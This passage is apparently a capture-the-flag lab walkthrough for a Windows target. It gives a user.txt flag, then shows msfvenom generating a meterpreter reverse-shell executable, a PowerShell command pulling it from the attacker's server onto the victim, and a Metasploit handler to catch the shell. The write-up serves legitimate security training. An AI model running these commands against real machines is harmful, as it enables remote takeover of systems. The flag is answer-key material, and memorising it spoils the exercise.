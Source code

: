 <p align="center"> <img src="https://i.imgur.com/tTL3FBC.png" height="90%" width="90%" alt=""/>

Question 3: What is the user.txt flag? 

`79007a09481963edf2e1321abd9ae2a0`

#

# Switching Shells Questions

Question 1: What is the final size of the exe payload that you generated?

#

# Question 1

To make the privilege escalation easier, let's switch to a meterpreter shell using the following process.

Use msfvenom to create a Windows meterpreter reverse shell using the following payload:

`msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=IP LPORT=PORT -f exe -o shell-name.exe`

For my case: `msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.6.106.187 LPORT=1337 -f exe -o ExploitShell.exe`

- LHOST = your own IP Address.
- LPORT = can be any port that is unuse.
- shell-name = any shell name.

Open up a new terminal and run the msfvenom above.

<p align="center"> <img src="https://i.imgur.com/uFhN1jS.png" height="90%" width="90%" alt=""/>

After creating this payload, download it to the bruce's machine using the same method in the previous step:

`powershell "(New-Object System.Net.WebClient).Downloadfile('http://your-thm-ip:8000/shell-name.exe','shell-name.exe')"`

For my case: `powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.6.106.187:80/ExploitShell.exe','ExploitShell.exe')"`

On Bruce's Terminal run the command above.
- We can see that it's on bruce's desktop with `ls` command.

<p align="center"> <img src="https://i.imgur.com/neHJFSW.png" height="90%" width="90%" alt=""/>

Before running the exploit, we have to ensure the handler is set up in Metasploit.

- On Terminal open up Metasploit with: `msfconsole`.
- After Metasploit is running type in: `use exploit/multi/handler set PAYLOAD windows/meterpreter/reverse_tcp`.
- Set LHOST to your IP address: `set LHOST 10.6.106.187`.
- Set LPORT to the same port you used for payload: `set LPORT 1337`.
- Run the exploit: `run`.
